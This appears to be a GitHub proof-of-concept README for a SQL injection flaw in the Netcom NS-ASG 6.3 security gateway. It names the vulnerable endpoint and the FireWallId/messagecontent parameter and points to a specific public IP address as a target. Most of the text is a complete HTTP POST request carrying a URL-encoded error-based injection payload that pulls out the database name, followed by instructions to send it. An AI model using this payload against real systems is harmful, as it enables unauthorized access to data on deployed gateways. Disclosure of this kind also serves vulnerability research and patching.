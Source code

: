# SQL injection POC

There is a SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.
[official website](https://www.netentsec.com/)
version:NS-ASG 6.3
Vulnerability points：/protocol/firewall/uploadfirewall.php analyse as below , the $FireWallId database value is accepted by messagecontent and then substituted into the database statement.

![image](https://github.com/gb111d/ns-asg_poc/assets/148308306/3f18372a-9798-49ce-93d1-16cdb9daec78)


[https://106.37.206.12/]

ps: use older tls version or just access through mobile browser.

There is no validation during the execution of SQL injection.

Poc：
```
POST /protocol/index.php HTTP/1.1
Content-Length: 377
Host: 106.37.206.12
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Content-Type: application/x-www-form-urlencoded
Referer: https://106.37.206.12/protocol/index.php
Connection: close

jsoncontent=%7B%22protocolType%22%3A%22uploadfirewall%22%2C%22messagecontent%22%3A%5B%221%20AND%20%28SELECT%205347%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%280x716a716b71%2C%28MID%28%28IFNULL%28CAST%28DATABASE%28%29%20AS%20NCHAR%29%2C0x20%29%29%2C1%2C54%29%29%2C0x71707a6b71%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20INFORMATION_SCHEMA.PLUGINS%20GROUP%20BY%20x%29a%29%22%5D%7D
```

Send request with the payload above.

![image](https://github.com/gb111d/ns-asg_poc/assets/148308306/97490bc6-c1a7-4f28-a6fe-102643b3c1a3)


![image](https://github.com/gb111d/ns-asg_poc/assets/148308306/ee5f5fac-4523-4038-aa91-058c1f88c6ac)

